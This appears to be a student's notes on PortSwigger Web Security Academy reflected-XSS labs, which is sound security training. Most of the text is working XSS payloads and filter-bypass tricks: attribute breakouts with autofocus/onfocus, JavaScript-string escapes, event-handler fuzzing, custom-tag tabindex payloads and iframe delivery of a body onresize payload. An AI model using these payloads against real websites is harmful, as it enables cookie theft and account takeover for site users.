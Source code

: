 ## Lab1 - Reflected

# Search field: able to add the html tag
#payload tried
<b>hello</b>
#Result
<script>alert('xss')</script>
<img src="x" onerror="print('xss')">
-------------------------------------------------------------------------------------------------------------------------------------------

## Lab2: reflected XXS in html attribute context

* Payload
" autofocus onfocus=alert(document.cookie) " 
" autofocus onfocus=alert(document.cookie) x="
"onmouseover="alert(1)

* Output
<input type=text placeholder='Search the blog...' name=search value="" autofocus onfocus=alert(document.cookie) ""> - for 1st payload

-------------------------------------------------------------------------------------------------------------------------------------------

## Lab3 - JavaScript string with angle brackets HTML encoded
# Search field has reflected xss, but angular brackets are encoded. Its javascript context, so we need to come out of js context.
* payload

var searchTerms = '&lt;b&gt;hello&lt;/b&gt;';
<script>
    var searchTerms = '" onerror=alert(document.domain)';
    document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
</script>

 <script>
    var searchTerms = ''-alert(document.domain)-'';
    document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
</script>

* Output
'-alert(document.domain)-'

-------------------------------------------------------------------------------------------------------------------------------------------

## Lab4 - Reflected XSS into HTML context with most tags and attributes blocked [DIFFICULT]
* Payload:
<img src=x onerror=alert(1)>  --> Tags not allowed, many tags were not allowed. So, with help of Intruder, foundout which tag and attributes are allowed.
tag:<body> is supported
events:
onbeforeinput
onratechange
onresize

Trail:
1] onbeforeinput - needs manual input
<body onbeforeinput='prompt(1)'>   -- search and then put any char in the search, b4 that prompts

<h1>0 search results for '<body onbeforeinput=prompt(1)>'</h1>  -- view source
<body onbeforeinput="prompt(1)">  -- inspect, if it finds 2 body tag it just removes that one but picks up the event from it & attaches it to the 1st body  tag.  --> It's a manual intervension

2] works only with audio or video
<video id="myVideo" width="320" height="240" autoplay controls onratechange="prompt(1)">
    <source src="movie.mp4" type="video/mp4">
    <source src="movie.ogg" type="video/ogg">
    Your browser does not support the video tag.
    </video><br>
<audio id="myAudio" controls onratechange=prompt(123)>
  <source src="horse.ogg" type="audio/ogg">
  <source src="horse.mp3" type="audio/mpeg">
  Your browser does not support the audio element.
</audio>

<body onratechange=prompt(123)>  -- didn't worked

3] onresize - needs manual input
<body onresize=print(123)> --> search and resize, prompts

4] how to automate?
Can create an iframe(attacker controllable) and open lab page there, but it will not prompt, for that we need to trigger onload event of iframe so that on onload event width will increase and event will trigger 

<iframe src="https://0a820016043ea3a180a31c120090007f.web-security-academy.net/?search=%3Cbody+onresize%3Dprint%28123%29%3E" onload=this.style.width='100px'> - refer xss.html - when u open it, prompt will popup - just copy paste it in src of frame

Result:
<iframe src="" onload=this.stlye.width='100px'>
<iframe src="https://0a820016043ea3a180a31c120090007f.web-security-academy.net/?search=<body onresize=print(123)>" onload=this.style.width='100px'> 

-------------------------------------------------------------------------------------------------------------------------------------------
## Lab5: Reflected XSS into HTML context with all tags blocked except custom ones

[custom tag should have -(hiphen) in it]
We want to display alert so eighter we can focus that field so alert will display. 

onfocus — Event that is triggered when an element becomes the active element in the document, meaning it is selected for interaction. This can occur through various user actions, such as clicking on the element with the mouse, tabbing to the element using the keyboard, or tapping on the element on touch-enabled devices.
id=’x’ — The id attribute uniquely identifies an element within the document, which can be useful for targeting the element with CSS or JavaScript.
tabindex=’1' — This attribute specifies the order in which elements receive focus when navigating the page using the keyboard’s Tab key.

<xss-tag id=x onfocus=alert(document.cookie) tabindex=1> --> tab alert displays
<my-tag id='x' onfocus='alert(document.cookie)' tabindex='1'>#x -->Adding ‘#x’ to the end of your URL is telling the browser to open this page, then immediately ‘tab’ to ‘id=x’. And this will trigger our pop-up.

https://0abc007b034a1d7380ce30d5004b0076.web-security-academy.net/?search=<my-tag onfocus='alert(document.cookie)' id='x' tabindex='1'>#x

[Always use a tabindex attribute in ur payload with custom tag]
<custom id='a1' onfocus='alert(document.cookie)' tabindex='1'>#a1

https://0a71007a03e7bccc814c0df300bf003f.web-security-academy.net/?search=<custom id='a1' onfocus='alert(document.cookie)' tabindex='1'>#a1
<custom%20id='a1'%20onfocus='alert%3Cdocument.cookie%3E'%20tabindex='1'>#a1

All url is encoding which is not working

<my-tag id="x" onfocus="alert(document.cookie)" tabindex="1">#x ---> worked in search
<iframe src="https://0a71007a03e7bccc814c0df300bf003f.web-security-academy.net/?search=%3Cmy-tag+tabindex%3D%221%22+onfocus%3D%22alert(document.cookie)%22+id%3D%22a1%22%3E#a1"></iframe>   -- encoding giving problem not working
